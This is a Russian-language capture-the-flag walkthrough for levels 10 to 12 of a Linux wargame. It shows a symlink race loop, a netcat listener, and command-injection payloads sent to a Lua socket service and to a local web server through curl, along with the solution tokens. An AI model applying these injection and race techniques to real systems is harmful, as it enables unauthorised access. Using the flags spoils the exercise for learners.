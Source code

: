 Скрипт спамера
```
#!/bin/bash
while true; do
        /home/user/level10/level10 /tmp/link 192.16.188.130
done
```

* Создаем эти скрипты и запускаем в разных окнах, при этом начинаем слушать `nc -lk 6969`
* Видим что при прослушке порта проскакивает токен:
```
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
```
* Ура мы нашли токен!
* незабыть сделать getflag (ключ для получения флага - woupa2yuojeeaaed06riuj63c)

## level11 (feulo4b72j7edeahuete3no7cl)

* Видим что в папке есть скрипт на луа, как я понимаю с этим скриптом поднимается сервер для вебсокета, попробуем прослушать может он уже поднят
* `nc 127.0.0.1 5151`
* Просит пароль... можно попробовать вставить туда csrf-атаку
* Password: `getflag` > /tmp/flag
* Посмотрим что у нас в /tmp/flag:
**Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s**

## level12 (fa6v5ateaw21peobuub8ipe6s)

* Видим скрипт, на порте 4646 висит вебсервер, который берет обрабатывает аргумент через регулярное выражение
* Можем создать скрипт с `getflag` > /tmp/flag и этот файл (EXP) потом передать агрументом `curl localhost:4646?x='`/*/EXP`'`
*
* Посмотрим что у нас в /tmp/flag:
**Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr**

## flag13 (g1qKMiRpXf53AWhDaU7FEkczr)
